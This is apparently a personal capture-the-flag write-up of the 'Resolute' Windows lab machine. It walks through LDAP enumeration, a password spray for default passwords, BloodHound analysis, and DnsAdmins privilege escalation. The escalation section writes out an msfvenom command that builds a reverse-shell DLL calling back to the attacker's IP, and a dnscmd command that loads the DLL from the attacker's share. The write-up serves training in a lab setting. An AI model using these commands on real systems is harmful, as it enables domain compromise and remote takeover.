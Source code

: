 # Resolute
Details:
- Resolute IP: 10.10.10.169
- Kali IP: 10.10.14.145
- Difficulty: medium
- Date of writeup: 30 May 2020

Resolute, my first Windows box. It was much harder for me than the average medium difficulty Linux box. Even though I had some knowledge on ldap, smb and active directory, which turned out to be handy, I couldn't finish it without a brief hunt for tips.

Sections:
- [Recon](#recon)
- [Obtaining a Foothold](#obtaining-a-foothold)
- [Lateral Movement](#lateral-movement)
- [Getting to Root](#getting-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)

Tools/commands Used
- nmap
- evil-winrm
- crackmapexec
- ldapsearch
- Bloodhound
- msfconsole
- msfvenom

## Recon
So, first things first: recon (```-v``` option shows ports as it founds them, so we can start working on them right away)
```shell
kali$  nmap -v -sC -sV 10.10.10.169
```

![](images/Resolute_2.png?raw=true)

There are many things to try out, given the ports that are open: DNS (53), Kerberos (88), LDAP (289), SMB (445) and so on. I started with LDAP.

## Obtaining a Foothold

```shell
kali$  ldapsearch -h 10.10.10.169 -x -s base namingcontexts
```

With the command above we can extract part of the FQDN (Fully Qualified Domain Name). We want to know the Domain Controller's name, to use it with the ```ldapsearch``` command (we actually also get the Domain name in the nmap run).

```shell
kali$  ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

This command spits out a bunch of information. I saved it in a file and started going through it. What we would really like to know is if there is any information regarding the users. We know, from an extended nmap scan (```nmap -p- 10.10.10.169```), that port 5985 is open, so we can use ```evil-winrm``` to log in.

Sure enough, after a bit of search, we found out that upon creation, users are given a default password.

![](images/Resolute_3.png?raw=true)

We now need to know whether some of the users forgot to change that password or not. We can do this in two ways:
- Extract the users from the LDAP dump by searching for the field ```sAMAccountName``` and attempt the password for all of them, or
- Look at information in the LDAP dump, fields like ```badPasswordTime```, ```lastLogonTimestamp```, ```pwdLastSet```, etc., and try to make inferences as to which user might have not changed their default password

Since there are only 60-something users in the system and there is no password lockout (see image below), then we can proceed to use ```crackmapexec```

![](images/Resolute_1.png?raw=true)

```shell
kali$  crackmapexec smb 10.10.10.169 -u users.txt -p passwords.txt
```

Sure enough, we get that user ```melanie``` didn't change her default password. We can now establish a connection:

![](images/Resolute_4.png?raw=true)


## Lateral movement

Achieving root was quite difficult in this box. It was quite a challenge and also I feel it was quite a "real-life"-like scenario. I attempted a bunch of things that didn't work out because of several reasons, and I ended up looking for tips in Reddit. The reason why many of the things I tried didn't work was because there seemed to be some security software running, as can be observed in the image below, where I tried to run PowerView.

![](images/Resolute_5.png?raw=true)

I also ran many enumeration scripts and Bloodhound, which turned out to be useful later on. To use it:
- Install [neo4j](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/#debian-install)
- Pull [Sharphound ingestors](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) from github
- Copy ingestor to the target, run it and obtain the Zip file back in your Kali VM
- Startup neo4j
- Get a [Bloodhound release](https://github.com/BloodHoundAD/BloodHound/releases) to start up the server
- Change chrome-sandbox permissions/owner as needed
- Import the zip file in Bloodhound

![](images/Resolute_10.png?raw=true)

I have to admit that not being very profficient in the use of Bloodhound, at first I was overwhelmed with the amount of information and followed a bunch of rabbit holes. My attempt to run PowerView above was one of those. I'm not going into details here on how to use Bloodhound, as I'm sure there are many good resources out there to look at.

What I should have seen, however, was that there was another user that could remote into the Domain Controller. This should have been an interesting clue for me.

Anyhow, what I ended up doing was going through the filesystem searching for clues. There was an interesting folder in the C:\ folder:

![](images/Resolute_6.png?raw=true)

Getting the content of that file:

![](images/Resolute_7.png?raw=true)

We have the credentials to user ```ryan```, which is the user that I missed in the Bloodhound analysis.

![](images/Resolute_8.png?raw=true)


## Getting to root

We're still not there yet. This box seems to never end!

User ```ryan``` has a singularity, and it is that it belongs to the group DNSADMINS. I realized that while looking at the Bloodhound analysis, but since then I have not been able to reproduce the same query that I did to find it out. Anyways, any good enumeration script would have told me the same. 

After a bit of browsing around (just look for "DNSAdmin privilege escalation" and there'll be a bunch of [results](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)) I knew what to do. It seems that you can tell the DNS server to load an arbitrary DLL and run it. You can even use an UNC path, which is what I use in the following image

![](images/Resolute_9.png?raw=true)

Explanation:
- First, build a dll which will open a reverse shell to your kali VM:
```shell
kali$  msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.145 LPORT=4444 -f dll > smb_srv/privesc.dll
```
- Open msfconsole and start the handler for the reverse shell
- In the target machine, run the command that will load the dll
```shell
resolute$  dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.145\smb_srv\privesc.dll
```
- In the target machine, use ```sc.exe``` to stop/start the DNS server, making it load the DLL

**We have root!**


## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=8KJebvmd1Fk)

TODO


